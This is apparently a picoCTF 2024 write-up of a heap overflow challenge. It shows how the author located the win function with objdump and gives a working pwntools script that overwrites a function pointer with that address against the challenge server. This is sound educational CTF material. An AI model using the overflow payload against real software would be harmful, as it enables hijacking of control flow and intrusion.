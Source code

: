 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#heap_<br>

Can you handle function pointers?<br>
Download the binary [here](../chall).<br>
Download the source [here](../chall.c).

## Solution

First, I executed the source code to observe the output. I tried entering different option numbers to see the corresponding results.

![image](https://github.com/user-attachments/assets/acbf2097-01fa-42fb-bfdc-08d69c4b812f)<br>
**From the heap table, we can see that both addresses are the same. This indicates that 32 bytes can be used to reach the boundary.*

I then reviewed the source code to identify any possible way to obtain the flag. Here’s what I discovered:

![image](https://github.com/user-attachments/assets/186485dd-0f6a-47b1-a7d1-d637d8dbc306)<br>
**To retrieve the flag, we need to call the win function.*

In this case, we need to access the win function to obtain the flag. Therefore, we must locate the address of the win function. To do this, I used the command `objdump -D chall > output.txt` to export the output to a .txt file. Once we obtain the address in big-endian format, we need to convert it to little-endian format by using [endian converter](https://blockchain-academy.hs-mittweida.de/litte-big-endian-converter/).

![image](https://github.com/user-attachments/assets/8c317638-ed8d-4628-8188-86c9ae43645d)
**The highlighted part is the address of win function.*

> [!NOTE]
> When writing payload scripts, little-endian format must be used.

```python
from pwn import *

p = remote('mimas.picoctf.net', 64646)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```
**This is the payload script that we'll use.*

Run the script in an environment, and you'll obtain the flag.
